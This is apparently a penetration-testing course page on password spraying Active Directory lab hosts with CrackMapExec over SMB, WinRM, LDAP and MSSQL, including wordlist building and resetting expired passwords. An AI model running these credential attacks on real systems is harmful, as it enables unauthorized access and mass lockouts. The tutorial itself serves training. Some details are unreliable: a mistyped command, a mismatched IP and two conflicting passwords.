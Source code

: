 ## Password Spraying 

We found a list of users abusing the **NULL Session** flaw. We now need to find a valid password to gain a foothold in the domain. If we do not have a proper list of users, or the target is not vulnerable to a **NULL Session** attack, we will need another way to find valid usernames, like OSINT (i.e., hunting on LinkedIn), brute-forcing with a large username list and Kerbrute, physical recon, etc. In this section, we will learn how to find a valid set of credentials by testing authentication against a set of targets once we have a list of usernames. 


### Creating a Password List 


We do not know these users' passwords, but what we know is the password policy. We can build a custom wordlist of common passwords such as **Welcome1 and Password123**, the current month with the year at the end, the company name or the domain name, and apply different mutations. To learn more about password mutations, check out the Academy module [Password Attacks](https://academy.hackthebox.com/module/details/147/). Let's use the domain name as the password with a capital letter, a number, and an exclamation mark at the end: 



#### Password List & User List 


![Password Spraying](/Password-Spraying/images/user-pass-list.png) 

- Now we need to select the protocol and the target and use the option **-u to provide a username(s)** or file(s) containing usernames and the option **-p to provide the password(s)** or file(s) containing passwords. 
- Let's see some examples using the SMB protocol: 


1. Password Attack with a File with Usernames and a Single Password 
2. Password Attack with a List of Usernames and a Single Password
3. Password Attack with a List of Usernames and Two Passwords
4. Password Attack Continue on Success
5. Password Attack with a List of Usernames and a Password List

```

$ crackmapexec smb 10.129.204.177 -u users.txt -p Inlanefreight01! 

$ crackmapexec smb 10.129.204.177 -u noemi david grace carlos -p Inlanefreight01! 

$ crackmapexec smb 10.129.204.177 -u noemi david grace carlos -p Inlanefreight01! Inlanefreight02! 

$ crackmapexec smb 10.129.204.177 -u users.txt -p Inlanefreight01! Inlanefreight02! --continue-on-success 

$ crackmapexec smb 10.129.204.177 -u users.txt -p passwords.txt 


```


![Password Spraying](/Password-Spraying/images/spray.png) 

![Password Spraying](/Password-Spraying/images/spray-1.png) 

![Password Spraying](/Password-Spraying/images/spray-2.png) 


### Checking One user Equal to One Password with a Wordlist 


Another great feature of CME is if we know each user's password, and we want to test if they are still valid. For that purpose, use the **option --no-bruteforce.** This option will use the 1st user with the 1st password, the 2nd user with the 2nd password, and so on. 

- Disable Bruteforce 

![Password Spraying](/Password-Spraying/images/brute.png) 


### Testing Local Accounts 

- In case we would like to test a **local account instead of a domain account**, we can use the **--local-auth option** in CrackMapExec: 

#### Password Spraying Local Accounts 

`$ crackmapexec smb 10.129.204.177 -u Administrator -p Password@123 --local-auth `


![Password Spraying](/Password-Spraying/images/local.png) 


### Account Lockout 

- Be careful when performing Password Spraying. We need to ensure the value: **Account Lockout Threshold is set to None.** 
- If there is a value (usually 5), be careful with the number of attempts we try on each account and observe the window in which the counter is reset to 0 (typically 30 minutes). 
- Otherwise, there is a risk that we lock all accounts in the domain for 30 minutes or more (check the Locked Account Duration for how long this is). 
- Occasionally a domain password policy will be set to require an administrator to manually unlock accounts which could create an even bigger issue if we lock out one or more accounts with careless Password Spraying. 
- If you already have a user account, you can query its **Bad-Pwd-Count attribute**, which measures the number of times the user tried to log on to the account using an incorrect password. 


### Query Bad Password Count 

`$ crackmapexec smb 10.129.204.177 --users -u grace -p Inlanefreight01! `

![Password Spraying](/Password-Spraying/images/query.png) 

### Account Status


- Depending on the reason, for example, 
- **STATUS_INVALID_LOGON_HOURS or STATUS_INVALID_WORKSTATION** may be a good idea to try **another workstation or another time.** 
- In the case of the message **STATUS_PASSWORD_MUST_CHANGE**, we can change the user's password using [Impacket smbpasswd](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbpasswd.py) like: **smbpasswd -r domain -U user.** 


### Changing Password for an Account with Status PASSWORD_MUST_CHANGE 

```

$ crackmapexec smb 10.129.204.177 -u julio peter -p Inlanefreight01! 

$ smb -r 10.129.204.177 -U peter

Old SMB password:
New SMB password:Griffin3
Retype new SMB password:Griffin3

$ crackmapexec smb 10.129.204.177 -u peter -p Griffin3 

```

![Password Spraying](/Password-Spraying/images/change.png) 

![Password Spraying](/Password-Spraying/images/change-1.png) 


### WinRM - Password Spraying 

```

$ crackmapexec smb 10.129.204.177 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success 

$ crackmapexec winrm 10.127.204.177 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success 

```

![Password Spraying](/Password-Spraying/images/winrm.png) 

- After changing peter's password to #!SpacesNotTabs1 we can now sucessfully login via winrm. 

- We can execute commands on the system with the account Peter, who has local admin rights. We will cover more about this in the section [Command Execution](https://academy.hackthebox.com/module/84/section/812). 


### LDAP - Password Spraying 

- When doing Password Spraying against LDAP protocol, we need to use the FQDN otherwise, we will receive an error: 

#### Error when using the IP w LDAP 

- We have two options to solve this issue: configure our attack host to use the domain name server (DNS) or configure the KDC FQDN in our /etc/hosts file. Let's go with the second option and add the FQDN to our /etc/hosts file: 

![Password Spraying](/Password-Spraying/images/ldap-error.png) 

![Password Spraying](/Password-Spraying/images/head.png) 

![Password Spraying](/Password-Spraying/images/ldap.png) 


### MSSQL Authentication Mechanisms 

- We can have 3 types of users to authenticate to MSSQL. 

1. Active Directory Account
2. Local Windows Account
3. SQL Account 

- For an Active Directory account, we need to specify the domain name: 


### Password Spray - Active Directory Account 

```

$ crackmapexec mssql 10.129.85.177 -u julio grace jorge -p Inlanefreight01! -d inlanefreight.htb 
$ crackmapexec mssql 10.129.78.7 -u julio grace -p Inlanefreight01! -d .
$ crackmapexec mssql 10.129.78.7 -u julio grace -p Inlanefreight01! --local-auth
$ crackmapexec smb 10.129.78.7 -u '' -p '' --users
$ crackmapexec mssql 10.129.78.7 -u newusers.txt -p newpasswords.txt --local-auth --continue-on-success

```

![Password Spraying](/Password-Spraying/images/ad.png) 

![Password Spraying](/Password-Spraying/images/mssql.png) 

![Password Spraying](/Password-Spraying/images/mssql-2.png) 
